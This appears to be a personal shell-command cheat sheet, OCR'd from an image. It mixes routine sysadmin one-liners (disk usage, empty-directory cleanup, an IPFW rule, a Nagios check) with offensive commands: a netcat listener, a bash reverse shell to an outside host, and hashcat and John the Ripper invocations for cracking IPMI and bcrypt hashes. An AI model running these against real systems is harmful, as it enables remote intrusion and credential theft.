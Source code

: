             du -k * | sort -nr | cut -f2 | xargs -d '\n' du -sh
            
            
            #rev shell
            nc -l -p 8080 -vvv
            bash -i >& /dev/tcp/rmccurdy.com/8080 0>&1
            
            
            #nagios
            -c CheckEventLog -a file=application MaxWarn=1 MaxCrit=1 filter=new filter+generated=\<1d filter+eventID==208 truncate=120 filter+eventType==warning
            

IPFW limit max connects to 2
-------------------

            allow tcp from any 80 to any out via dc0 limit dst-addr 2
            

rm remove empty files
-------------------

            find . -depth -empty -type d -exec  rmdir {} \;
            
            
            
            
            ps aux --sort -rss |head -n 25
            
            # crack all ILO default hashes -12min on laptop from MSF dump IPMI hashes tool
            ./hashcat-cli64.exe  --remove --outfile=batchcrack.out -m 7300  hashes.txt -a 3 ?d?d?d?d?d?d?d?d
            
            
            # hashcat .. IPMI syntax
            hashcat-cli64.exe -a 3 -m 7300 --pw-min=1 --pw-max=6 -p : -o "C:\backup\hashcat-0.47\HashcatGUI_043\hashes_found.txt" --outfile-format=3 -n 4 -c 64 "hashes.txt" -1 ?l?d ?1?1?1?1?1?1
            

copy 5k random files into current directory to home path great for filling up MP3 Player with random music
-------------------

            find . -type f |shuf |head -n 5000 |xargs -d$'\n' -I{} cp -v {} ~/
            
            # crack shadow passwords ( all types )
            john --fo=bf -w:/backup/LAPTOP/backup/wordlist/rockyou.txt  bcrypt.txt
            john -show bcrypt.txt
            
            

find examples to find multiple
-------------------

            find . -iname "screen*" -o -iname "*.log" -o -iname "*.txt" -exec grep -H '[+]'  '{}' \;
            
            
            mac address
            C0:FF:EE:C0:FF:EE
            DE:AD:BE:EF:CA:FE 
            DE:FE:CA:7E:B0:0B
            